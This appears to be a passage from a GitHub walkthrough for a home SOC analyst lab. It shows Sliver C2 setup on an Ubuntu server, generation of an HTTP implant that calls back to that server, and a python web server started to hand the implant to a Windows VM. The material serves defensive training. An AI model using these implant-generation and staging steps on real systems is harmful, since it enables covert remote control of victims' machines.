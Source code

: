 # Part 2 - Observing Noise

### Blog Post: [So you want to be a SOC Analyst? Part 2](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-ea2)

Note: You will need to complete "Part 1 - Virtual Lab Setup" and have your Ubuntu Linux Server IP for this part of the walkthrough. 

## Generating C2 Payload

After either interacting with your Ubuntu Server or using a SSH session on your chosen Linux VM, you can become root and go to the Sliver install directory: 
```
sudo su
cd /opt/sliver
```

From there, you can launch Sliver Server with the following command:
```
sliver-server
```

If successful and everything has been installed correctly, you should recieve similar output: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/3f860d1c-7578-4ef7-903d-b43ee4ccbdae)

In the server session, we can generate our first C2 session payload (replacing "UbuntuIP" with our Ubuntu Server IP): 
```
generate --http <UbuntuIP> --save /opt/sliver
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/483ba814-d2a3-4759-8d84-cf464517ade9)

Confirm the new implant:
```
implants
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/0718a866-8ac4-4e80-87c5-18ba4edcfaad)

Now, after confirming the implant configuration and that our C2 payload is good to be transferred to the Windows VM, exit Sliver.
```
exit
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/a4eff8df-cf94-4869-89c0-c39ebfab1283)

Now, start a web server with python3 or any equivalent command:
```
python3 -m http.server 80
```
